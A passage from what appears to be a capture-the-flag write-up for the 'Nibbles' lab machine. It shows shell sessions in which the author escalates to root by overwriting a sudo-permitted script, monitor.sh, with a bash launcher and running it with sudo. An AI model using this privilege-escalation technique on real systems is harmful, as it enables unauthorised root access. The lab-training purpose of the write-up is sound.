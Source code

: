 ```text
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ ls
ls
personal  personal.zip	user.txt
nibbler@Nibbles:/home/nibbler$ cd personal
cd personal
nibbler@Nibbles:/home/nibbler/personal$ ls
ls
stuff
nibbler@Nibbles:/home/nibbler/personal$ cd stuff
cd stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
ls
monitor.sh
```
So now I have two options here. I can either choose to load a reverse shell into monitor.sh, or simply make it a bash executable to elevate my privileges to root. Choosing the latter I overwrite monitor.sh to simply:

```text
#!/bin/sh
bash
```
and make sure the file is executable by using  `chmod +x monitor.sh`. From here all I need to do is run the code with sudo to elevate my shell to root:

```text
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo ./monitor.sh
root@Nibbles:/home/nibbler/personal/stuff# cd /root
cd /root
root@Nibbles:~# ls
ls
root.txt
```
![root_flag.png](../assets/nibbles_assets/root_nibble.png)


### Key Takeaways
